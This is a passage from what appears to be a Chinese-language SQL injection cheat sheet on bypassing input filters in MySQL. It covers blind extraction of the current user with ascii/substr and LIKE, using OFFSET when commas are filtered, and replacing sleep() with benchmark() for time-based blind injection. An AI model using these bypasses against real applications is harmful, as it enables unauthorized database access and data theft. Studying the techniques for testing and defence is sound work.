 ```sql
mysql> select ascii(substr(user(),1,1))=114;
+-------------------------------+
| ascii(substr(user(),1,1))=114 |
+-------------------------------+
|                             1 |
+-------------------------------+

mysql> select user() like "r%";
+------------------+
| user() like "r%" |
+------------------+
|                1 |
+------------------+

mysql> select user() like "t%";
+------------------+
| user() like "t%" |
+------------------+
|                0 |
+------------------+
```

- 使用offset关键字
  适用于`limit`中的逗号被过滤的情况
  `limit 2,1`等价于`limit 1 offset 2`

```sql
mysql> select * from users limit 2,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | test3    | pass1    |
+----+----------+----------+

mysql> select * from users limit 1 offset 2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | test3    | pass1    |
+----+----------+----------+
```

# 过滤函数绕过

- sleep() -->benchmark()

```sql
mysql> select 12,23 and sleep(1);
+----+-----------------+
| 12 | 23 and sleep(1) |
+----+-----------------+
| 12 |               0 |
+----+-----------------+
1 row in set (1.00 sec)

# MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度。 
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
mysql> select 12,23 and benchmark(1000000000,1);
+----+--------------------------------+
| 12 | 23 and benchmark(1000000000,1) |
+----+--------------------------------+
| 12 |                              0 |
+----+--------------------------------+
1 row in set (4.61 sec)
```